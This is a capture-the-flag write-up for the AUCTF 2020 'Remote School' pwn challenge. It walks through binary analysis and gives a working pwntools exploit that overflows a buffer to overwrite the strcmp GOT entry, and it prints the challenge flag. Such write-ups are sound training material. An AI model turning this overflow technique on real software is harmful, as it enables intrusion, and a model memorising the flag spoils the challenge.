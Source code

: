 # AUCTF 2020

## Remote School

> 960
>
> Dear Student,
>
> Due to COVID-19 concerns our curriculum will be moving completely to online courses... I know we haven't even started our school year yet so this may come as a shock. But I promise it won't be too bad! You can login at challenges.auctf.com 30013.
>
> Best, Dean of Eon Pillars
> 
> Note: ASLR is disabled for this challenge
>
> Author: nadrojisk
> 
> [online](online)

Tags: _pwn_

### Introduction

I'm a little stumped why this was the least solved pwn.


### Analysis

#### Checksec

```
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      PIE enabled
    RWX:      Has RWX segments
```

Basically, choose your own adventure.

PIE enabled, however the challenge server does not have ASLR enabled.

> To test without disabling ASLR systemwide type: `setarch $(uname -m) -R ./exploit.py`)
> 
> Since no ASLR and x86 (32-bit) we can assume a base process address of `0x56555000`.


#### Decompile with Ghidra

Three functions of interest.

Just need to call `print_flag`:

![](./print_flag.png)

Looks like a basic buffer overflow vulnerability that will write any value to any writable location.  Just need to find a way to call `test`:

![](./test.png)

How to call `test`:

![](./class_hacker.png)


### Exploit

#### Attack Plan

1. Attend "Hacker" class
2. Pass _the_ `test`
3. Get the flag

#### Attend "Hacker" class

```
# ./online
Welcome to your new online class!
We here, at Eon Pillars, we think Zoom is trash and prefer to have our lessions via command line!
May I get your name?
	Name: foobar
Thanks! It is nice to meet you foobar!

Well enough of that let's start class ... What should we do?
> [? for menu]: ?

~~Eon Pillars help menu~~

help: Print help menu
attend <class>: go to class
study <class>: study for class
list: list classes
stats: check stats
grades: check grades
quit: Exit Terminal

What should we do?
> [? for menu]: list classes
You have these classes:
	Algebra
	CompSci
What should we do?
> [? for menu]:
```

This may be enough info to guess `attend Hacker`, if not, try `strings`, or take a look at `cmd_attend` calling `cmd_dispatch`.

`cmd_dispatch` is passed a pointer to a table of pointers pairs.  The first pointer is to a string that is used to check for a correct command, and the second is a pointer to a function to call for that command.

`classtable`:

```
00013ec0 e0              undefined1E0h                     [0]           ?  ->  000120e0 
00013ec1 20              undefined120h                     [1]
00013ec2 01              undefined101h                     [2]
00013ec3 00              undefined100h                     [3]
00013ec4 2f              undefined12Fh                     [4]           ?  ->  0001192f
00013ec5 19              undefined119h                     [5]
00013ec6 01              undefined101h                     [6]
00013ec7 00              undefined100h                     [7]
00013ec8 e8              undefined1E8h                     [8]           ?  ->  000120e8
00013ec9 20              undefined120h                     [9]
00013eca 01              undefined101h                     [10]
00013ecb 00              undefined100h                     [11]
00013ecc 67              undefined167h                     [12]          ?  ->  00011967
00013ecd 19              undefined119h                     [13]
00013ece 01              undefined101h                     [14]
00013ecf 00              undefined100h                     [15]
00013ed0 f0              undefined1F0h                     [16]          ?  ->  000120f0
00013ed1 20              undefined120h                     [17]
00013ed2 01              undefined101h                     [18]
00013ed3 00              undefined100h                     [19]
00013ed4 9f              undefined19Fh                     [20]          ?  ->  0001199f
00013ed5 19              undefined119h                     [21]
00013ed6 01              undefined101h                     [22]
00013ed7 00              undefined100h                     [23]
```

`0x13ec0` -> `0x120e0` in the table above compares with the table below:

```
000120e0 41 6c 67 65 62 72 61 00      ds         "Algebra"
000120e8 43 6f 6d 70 53 63 69 00      ds         "CompSci"
000120f0 48 61 63 6b 65 72 00         ds         "Hacker"
```

If there is a match then the next address is called:

```
uVar2 = (**(code **)(param_2 + local_18 * 8 + 4))(local_10,local_3c);
```

Code to navigate to `class_hacker`:

```
#!/usr/bin/env python3

from pwn import *

p = process('./online')
#p = remote('challenges.auctf.com', 30013)

p.recvuntil('Name: ')
p.sendline("Fuck you. That's my name. You know why, mister? You drove a Hyundai to get here. I drove an eighty-thousand dollar BMW. THAT'S my name.")
p.recvuntil('menu]: ')
p.sendline('attend Hacker')
p.recvuntil('Welcome!\n')
```

#### Pass _the_ `test`

```
baseproc = 0x56555000
binary = ELF('online')

payload  = 2048 * b'A'
payload += p32(baseproc + binary.symbols['print_flag'])
payload += p32(baseproc + binary.got['strcmp'])
p.sendline(payload)
```

`class_hacker` just takes our input and calls `test`.  The `payload` just overflows `local_814` into `local_14` and `*local_10`.  Whatever is in `local_14` will be written to whatever `*local_10` points to.

By overwriting the `strcmp` GOT entry with the address of `print_flag`, the next time `strcmp` is called, `print_flag` is really called, and we get the flag.

Grade: A+


#### Get the flag

```
p.recvuntil('menu]: ')
p.sendline("give us the flag")
p.stream()
```

Any input will trigger `strcmp` and deliver the flag:

```
[+] Opening connection to challenges.auctf.com on port 30013: Done
[*] '/pwd/datajerk/auctf2020/remote-school/online'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      PIE enabled
    RWX:      Has RWX segments
auctf{1_hope_you_l1ked_my_g@m3_2321}
```

Flag: `auctf{1_hope_you_l1ked_my_g@m3_2321}`

